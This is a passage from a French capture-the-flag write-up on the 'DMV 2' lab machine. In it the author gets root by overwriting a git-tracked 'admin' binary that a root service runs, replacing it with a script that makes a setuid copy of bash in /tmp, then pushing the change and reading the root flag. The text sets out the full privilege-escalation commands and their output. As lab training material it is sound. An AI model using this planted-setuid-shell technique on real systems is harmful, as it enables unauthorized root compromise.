 ```systemd
```

Et le script shell mentionné exécute `/root/admin/admin` comme on l'a vu plus tôt.

Par conséquent je vais écraser le binaire `admin` dans le projet, le `commit` et `push` puis déclencher l'action en sélectionnant le choix 2 sur le port 4545 :

```bash
developerdmv@dmv2:/tmp/admincopy$ cp admin /tmp/admin_bak
developerdmv@dmv2:/tmp/admincopy$ echo -e '#!/bin/bash\ncp /bin/bash /tmp/\nchmod 4755 /tmp/bash' > admin
developerdmv@dmv2:/tmp/admincopy$ git status
On branch master
Your branch is up to date with 'origin/master'.

Changes not staged for commit:
  (use "git add <file>..." to update what will be committed)
  (use "git checkout -- <file>..." to discard changes in working directory)

        modified:   admin

no changes added to commit (use "git add" and/or "git commit -a")
developerdmv@dmv2:/tmp/admincopy$ git add admin 
developerdmv@dmv2:/tmp/admincopy$ git commit -m "Hacking the Gibson"
[master 4a0c800] Hacking the Gibson
 1 file changed, 0 insertions(+), 0 deletions(-)
 rewrite admin (99%)
developerdmv@dmv2:/tmp/admincopy$ git push
Counting objects: 3, done.
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 348 bytes | 87.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0)
To /home/developerdmv/admin.git/
   d364a80..4a0c800  master -> master
```

Et ma version a bien été exécutée, m'offrant un binaire setuid root :

```bash
developerdmv@dmv2:/tmp/admincopy$ ls /tmp/bash -al
-rwsr-xr-x 1 root root 1113504 Dec  2 15:09 /tmp/bash
developerdmv@dmv2:/tmp/admincopy$ /tmp/bash -p
bash-4.4# id
uid=1000(developerdmv) gid=1000(developerdmv) euid=0(root) groups=1000(developerdmv)
bash-4.4# cd /root
bash-4.4# ls
admin  root.txt
bash-4.4# cat root.txt
88888888ba,    88b           d88  8b           d8         ad888888b,  
88      `"8b   888b         d888  `8b         d8'        d8"     "88  
88        `8b  88`8b       d8'88   `8b       d8'                 a8P  
88         88  88 `8b     d8' 88    `8b     d8'               ,d8P"   
88         88  88  `8b   d8'  88     `8b   d8'  aaaaaaaa    a8P"      
88         8P  88   `8b d8'   88      `8b d8'   """"""""  a8P'        
88      .a8P   88    `888'    88       `888'             d8"          
88888888Y"'    88     `8'     88        `8'              88888888888  
                                                                      
====================================================================
                          Twitter: @over_jt
====================================================================

FLAG{a8ac60c0cfaf4617a7833c67e81d1512}
```

*Publié le 2 décembre 2022*
